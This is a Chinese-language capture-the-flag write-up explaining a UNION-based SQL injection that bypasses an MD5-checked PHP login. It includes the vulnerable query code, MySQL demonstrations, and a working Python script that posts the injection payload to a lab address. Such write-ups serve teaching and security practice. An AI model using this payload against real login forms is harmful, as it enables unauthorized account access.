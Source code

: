 # bear的注入

## 出题思路

这题需要你知道什么叫联合注入。

## 解题思路

定位到`login.php`中的这一句

```php
$username = $_POST['username'];
$password = $_POST['password'];

$sql="SELECT * FROM users WHERE username='$username'";
```

用户上传的username被拼接到了SQL语句中，这个SQL语句将会被执行，获取符合username的用户

查询到用户之后，将查询到的密码与上传的密码做md5之后比较。

```php
$row["password"] === md5($password) 
```

即使此时我们使用万能密码进行攻击，SQL逻辑如下

```
从users表中查询是否有username = 'admin' 或者 1=1
```

SQL语句的确查询到了结果，但是我们仍然无法通过密码的校验。

这时我们可以使用union联合注入的特性，即(SQL语句1 Union SQL语句2)。

给出一个例子：

```sql
mysql> select * from users;
+----------+--------------+
| username | password     |
+----------+--------------+
| admin    | OhyOuFOuNdit |
+----------+--------------+
1 row in set (0.00 sec)

mysql> select * from users where username = 'admin';
+----------+--------------+
| username | password     |
+----------+--------------+
| admin    | OhyOuFOuNdit |
+----------+--------------+
1 row in set (0.00 sec)

mysql> select * from users where username='admin' union select 'admin','fake_user';
+----------+--------------+
| username | password     |
+----------+--------------+
| admin    | OhyOuFOuNdit |
| admin    | fake_user    |
+----------+--------------+
2 rows in set (0.00 sec)

mysql> select * from users where username='123' union select 'admin','fake_user';
+----------+-----------+
| username | password  |
+----------+-----------+
| admin    | fake_user |
+----------+-----------+
1 row in set (0.00 sec)
```

当我们构造一个不存在的用户名，然后再将我们拼接的用户名和密码做union查询，这时候我们就可以控制我们需要登录的用户了。

SQL语句变化

```sql
SELECT *users where username='admin' union select 'admin', 我们需要上传的password的md5值#
```

## 解题脚本

```python
import requests
import hashlib

url = 'http://192.168.80.128:8858/login.php'

data = {
    'username':"123' union select 'admin', '{}'#".format(hashlib.md5(b'whistle').hexdigest()),
    'password':"whistle"
}

r = requests.post(
    url = url,
    data = data
)

print(r.text)
```

